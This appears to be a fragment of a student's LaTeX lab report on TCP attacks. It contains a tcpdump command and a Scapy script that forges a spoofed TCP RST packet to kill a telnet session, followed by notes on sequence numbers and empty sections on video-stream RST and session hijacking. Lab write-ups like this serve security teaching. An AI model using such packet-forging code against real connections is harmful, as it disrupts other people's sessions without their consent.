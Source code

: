 \documentclass{article}
\newcommand{\code}[1]{{\ttfamily #1}}
\begin{document}
\begin{tlist}{3}
  Capture: \code{sudo tcpdump tcp and host 192.168.137.150 and 192.168.137.140}\\
  Python:
  \begin{tlist}{2}
    \item[]
    \code{
\#!/usr/bin/pyton3\\
from scapy.all import *
\vspace{12pt}\\
ip = IP(src="192.168.137.150", dst="192.168.137.140")\\
tcp = TCP(sport=46176, dport=23, flags="R", seq=3375652917, ack=1837764021)\\
pkt = ip/tcp\\
ls(pkt)\\
print(pkt)\\
send(pkt, verbose=0)
    }
  \end{tlist}
  Screenshot:
  \href{https://i.loli.net/2018/09/12/5b9810585b7d3.png}{Attacker},
  \href{https://i.loli.net/2018/09/12/5b98105863974.png}{Client},
  \href{https://i.loli.net/2018/09/12/5b981058a7e99.png}{RST request}.\\
  To be honest, I didn't successed at first time. In the first several try, I didn't noticed that the seq and ack number displayed in wireshark is quoted as "relative sequence number", and obviously I won't success with those relative value. So after I turn off the "Display relatively" in wireshark. I made it in one shoot.
\end{tlist}

\subsection{TCP RST Attacks on Video Streaming Applications}
This task is essentially the same as the task 2, but with the GUI response. I shouldn't and didn't encounter any issure for this task.

\subsection{TCP Session Hijacking}
\end{document}
